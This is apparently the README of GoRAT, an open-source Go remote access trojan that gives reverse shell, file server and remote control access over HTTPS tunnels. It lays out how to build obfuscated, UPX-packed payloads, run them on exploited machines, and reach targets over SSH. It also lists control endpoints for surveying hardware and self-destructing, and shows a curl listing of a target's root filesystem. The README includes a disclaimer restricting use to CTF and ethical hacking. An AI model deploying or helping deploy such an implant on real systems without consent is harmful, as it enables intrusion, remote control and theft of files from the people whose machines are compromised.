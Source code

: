 ```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```
![GitHub](https://img.shields.io/github/license/JustinTimperio/GoRAT)
[![Go Reference](https://pkg.go.dev/badge/github.com/JustinTimperio/GoRAT.svg)](https://pkg.go.dev/github.com/JustinTimperio/GoRAT)
![Go Report Card](https://goreportcard.com/badge/github.com/JustinTimperio/GoRAT)
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/d343e4d027164076a630448e3102fbf7)](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros                 |
|---------------------|-------------------------------|
| Linux               | Linux                         |
| FreeBSD             | FreeBSD                       |
| OpenBSD             | OpenBSD                       |
| Linux ARM           | Linux ARM                     |
| FreeBSD ARM         | FreeBSD ARM                   |
| OpenBSD ARM         | OpenBSD ARM                   |
| Linux MIPS          | Linux MIPS                    |
| MacOS               | (NOT BUILDING) MacOS          |
| Android ARM         | (NOT BUILDING) Android ARM    |
| Windows (kinda)     | Windows (kinda)               |

# Installing and Building Native
1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/) 
3. Install [Garble](https://github.com/burrowers/garble) with `go get mvdan.cc/garble`
4. Fill out `config.sh`
5. Run `./build_payload.sh --all`

# Installing and Building with Docker
1. Install and start docker
2. Fill out `config.sh` 
3. Run `./build_payload.sh --docker`

# Using the Payloads
1. Transfer the `BUILD` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
2. Exploit your system and run the binary
3. Connect to the "target" via normal ssh from the "attacking" machine

# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
mr.robot@localhost:~# ./start_server.sh 
Starting Chisel Server on Port 1337
=============================================
Session #1 | Control Server Mounted On: 27818
Session #1 | SSH Server Mounted On: 27819
=============================================
Session #2 | Control Server Mounted On: 33132
Session #2 | SSH Server Mounted On: 33133
```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

The payload also uses [garble](https://github.com/burrowers/garble) to produce a binary that works as well as a regular build, but has as little information about the original source code as possible.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 
![image](goRAT_Architecture.jpg)


# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
